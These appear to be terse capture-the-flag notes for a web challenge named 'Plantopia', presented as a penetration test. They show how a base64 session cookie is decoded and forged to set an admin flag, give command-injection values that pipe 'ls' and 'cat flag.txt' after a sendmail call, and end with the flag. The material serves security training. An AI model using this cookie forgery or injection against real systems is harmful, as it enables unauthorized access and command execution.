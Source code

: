 Plantopia is our brand new, cutting edge plant care management website! Built for hobbiests and professionals alike, it's your one stop shop for all plant care management.

Please perform a penetration test ahead of our site launch and let us know if you find anything.

Username: testuser
Password: testpassword

echo "dGVzdHVzZXIuMC4xNzI5ODgyMjQ5" | base64 -d

echo -n "testuser.1.1729882249" | base64
dGVzdHVzZXIuMS4xNzI5ODgyMjQ5

/usr/sbin/sendmail -t | ls
/usr/sbin/sendmail -t | cat flag.txt

http://challenge.ctf.games:30689/plant/2


flag{c29c4d53fc432f7caeb573a9f6eae6c6}